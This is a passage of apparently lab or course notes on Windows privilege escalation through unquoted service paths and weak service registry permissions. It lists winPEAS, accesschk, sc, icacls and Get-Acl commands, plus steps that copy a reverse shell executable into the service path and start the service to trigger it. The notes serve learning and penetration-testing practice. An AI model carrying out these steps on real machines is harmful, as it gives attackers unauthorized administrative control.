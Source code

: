 If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.

### Privilege Escalations:

accesschk.exe /accepteula -ucqv user unquotedsvc
```bash

#Run winPEAS to check for service misconfigurations:
.\winPEASany.exe quiet servicesinfo
#Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

#Confirm this using sc:
sc qc unquotedsvc

# Use accesschk.exe to check for write permissions:
.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq "C:\Program Files\"
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
# Copy the reverse shell executable and rename it appropriately:
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path
Service\Common.exe"

# You can alos check the permission with icacls.

icacls "c:\Program Files\Unquoted Path Service"
# Start a listener on Kali, and then start the service to trigger the exploit:
net start unquotedsvc

```


## 3.  Weak Registry Permission
The Windows registry stores entries for each service.
Since registry entries can have ACLs, if the ACL is
misconfigured, it may be possible to modify a service’s
configuration even if we cannot modify the service
directly.

#### winpeas output
```powershell

winPEASany.exe quiet servicesinfo
```
```bash

  [+] Looking if you can modify any service registry()
   [?] Check if you can modify the registry of a service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services-registry-permissions                                                                                                                 
    HKLM\system\currentcontrolset\services\regsvc (Interactive [TakeOwnership])


# Run winPEAS to check for service misconfigurations:
 .\winPEASany.exe quiet servicesinfo

# Note that the “regsvc” service has a weak registry entry. We can confirm this with

PowerShell:
PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List

PS C:\PrivEsc>  Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
 Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```